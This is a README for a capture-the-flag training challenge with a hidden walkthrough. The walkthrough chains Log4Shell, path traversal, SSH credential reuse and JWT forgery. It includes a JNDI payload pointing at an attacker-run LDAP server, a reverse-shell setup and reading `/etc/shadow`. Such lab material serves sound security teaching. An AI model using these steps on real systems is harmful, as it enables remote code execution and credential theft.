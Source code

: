 # Forgot Your Password

This challenge focuses on exploiting a vulnerability chain involving multiple systems and security flaws.
Students must demonstrate skills in vulnerability exploitation, lateral movement, and privilege escalation across a network of interconnected services.

## Skills Used

1. **Vulnerability Exploitation**: Exploiting Log4Shell (CVE-2021-44228) and path traversal (CVE-2021-42013)
1. **Network Penetration**: Setting up reverse shells, LDAP and HTTP servers as payload hosts
1. **Lateral Movement**: SSH credential reuse and internal network reconnaissance
1. **JWT Security**: Extracting signing secrets and forging authenticated tokens
1. **System Analysis**: Reading log files, extracting user IDs, and analyzing JAR files
1. **Microservices**: Understanding service dependencies in decentralized environments

## Learning Objectives

- Understand how **vulnerability chaining** works in multi-machine attacks
- Learn about **Log4Shell exploitation**
- Practice **lateral movement** techniques in containerized environments
- Develop skills in **JWT security** and common misconfigurations
- Gain experience with **internal network reconnaissance** after initial compromise

## How to solve

Follow the instructions in the [attached auto-solver application](./auto-solve/ldap-server/src/main/java).

TLDR:

<details>
  <summary>Click to reveal how to solve steps</summary>
1. Get a reverse shell to the challenge's internal network:
    1. In the hackerlab, start a reverse shell listener (e.g. on port 1338)
    2. Also in the hackerlab, start [an HTTP server](./auto-solve/ldap-server/src/main/java/PayloadHTTPServer.java) (e.g. on port 8083) to host a [class that will launch a reverse shell](./auto-solve/Exploit.java) connection to the listener from the previous step (i.e., `hackerlab:1338`)
    3. Still in the hackerlab, start [an LDAP server](./auto-solve/ldap-server/src/main/java/LDAPRefServer.java) to point to the hosted class from the previous step (i.e., `http://hackerlab:8083/#Exploit`)
    4. [Post a payload](./auto-solve/ldap-server/src/main/java/Launcher.java) to the Java app running at `/auth/*` to exploit [CVE-2021-44228 (also known as Log4Shell)](https://en.wikipedia.org/wiki/Log4Shell) and point to the LDAP server from the previous step (i.e., `jndi:ldap://hackerlab:389/...`)
   5. The payload should enable the reverse shell - from the hackerlab, you should now be able to run commands on another machine (`authus` inside the `172.21.0.0/24` network)
2. Your reverse shell should now be functional. Use it to explore the connected machine and its network
3. From the sources of the application the reverse shell is running through (JAR located in `/app/`), extract a HMAC256 JWT signing secret
4. Find a `mailus` suffering from CVE-2021-42013, allowing an attacker to read `/etc/shadow`
5. Reuse the same credentials to SSH into `logus` and extract a user ID from `/var/log/dashboard/proxy2021-12-09.log`
6. Forge a JWT with containing simply the user ID, and sign it with the signing secret
7. Access the dashboard (repository) and copy and submit the flag
</details>
